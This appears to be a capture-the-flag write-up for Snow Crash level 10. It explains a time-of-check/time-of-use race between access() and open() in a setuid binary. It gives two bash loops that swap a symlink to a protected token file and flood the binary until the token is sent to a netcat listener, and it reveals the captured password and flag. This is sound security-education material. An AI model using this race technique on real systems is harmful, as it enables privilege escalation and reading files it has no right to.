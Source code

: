 ## Level 10

We can see once again two files `token` and `level10`.

Obviously we can't read token, and we can execute `level10` passing it a file and an ip address!

As we can see in the [decompiled level10](./level10_decomp.c), it sends the content of the file we pass to the ip address through a socket.

We can use `nc` to capture this traffic. More specificaly, we can use `nc -l -k <ip> <port>` so that it keeps the connection alive while we spam it.

## Exploit

Speaking of spamming, the important part here are two syscalls in the executable:

```c
	iVar2 = access((char *)in_stack_00000008[1],4);
	// more blabla and checks
	iVar3 = open(pcVar6,0);
```

Access checks if the user executing the program could read the content of the file we pass as an argument, and open obviously tries to open it.
However, the fact that they are separated calls means one thing, there is a timing during which we can modify the file between `access` and `open`, abusing the first permission check.

### Our objective

We want the executable to check access on a file we created, so that we pass the check, then create a symlink from this file to the token for which we don't have access.

### How ?

Simply with two bash scripts:

The first one will take care of the file swapping thingy as such:

```bash
while [ 1 ]
do
        touch /var/crash/swap
        rm -rf /var/crash/swap
        ln -s ~/token /var/crash/swap
        rm -rf /var/crash/swap
done
```

And the second one which will spam our executable with the file we create until we have a wonderful result:

```bash
while [ 1 ]
do
        ./level10 /var/crash/swap 10.14.6.1
done
```

It's simply bruteforcing and we can see the result on nc when we launch both scripts:

```bash
~/Documents/42/snow_crash/level10/res (main*) » nc -l -k 10.14.6.1 6969
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
```

And that's how we can trick our program to get read a new file between two calls!

## Password

woupa2yuojeeaaed06riuj63c

## Token

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ 
```
